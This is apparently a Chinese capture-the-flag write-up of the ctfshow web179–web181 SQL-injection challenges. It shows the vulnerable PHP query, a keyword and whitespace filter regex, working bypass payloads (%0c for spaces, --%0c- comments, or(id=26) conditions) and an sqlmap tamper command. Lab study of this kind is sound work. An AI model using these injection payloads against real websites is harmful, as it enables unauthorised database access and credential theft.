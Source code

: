 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638883781228-9a9a8e36-d2ec-430b-b014-27cf061d9432.png)
sqlmap一把梭的话使用space2hash脚本，将空格替换成#后面加6-12个随机大小写字符再加%0a
sqlmap -r sql.txt --tamper "space2hash.py" -- dbs

## web179（空格绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
非预期：1'or(1)%23直接出
预期解：过滤了%0a，但没过滤%0c
payload：1'union%0cselect%0cid,username,password%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'%23
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638884389579-3ae8bc60-235b-4c3c-9529-20bc661da84c.png)

## web180（空格，注释绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
非预期：1'or(1)--%0c-直接出
预期解：
还是过滤了*，%0a，应该多过滤了#，因为%23不起作用了，那么可以使用--%0c-进行绕过
payload：
5'union%0cselect%0cid,username,password%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'--%0c-
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638885261497-fd8bda26-ea83-46fe-ba4b-489f550caed2.png)

## web181（空格，注释绕过）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```
非预期：
payload：1'or(1)limit%0c21,1--%0c-
这是我测试的时候试出来的，这样确实能出，但我没想明白为什么过滤了%0c却还是可以，而其他的语句就不行
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638886157944-3ed01e0e-81b4-4982-ad75-c247850819e9.png)
很迷
啊，问过群主了，原因是后台手滑了，把\x0c敲成\0x0c了，真是给我漏了一手Orz
预期解：
已知flag在表中id都为26，那只要让查询条件id=26就行
payload：1234'or(id=26)and'a'='a
1234'or(id=26)是为了满足id=26，and'a'='a是闭合后面的单引号
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638886512560-5e6dbc9e-f04f-46a5-9ebf-dfaad3a404e9.png)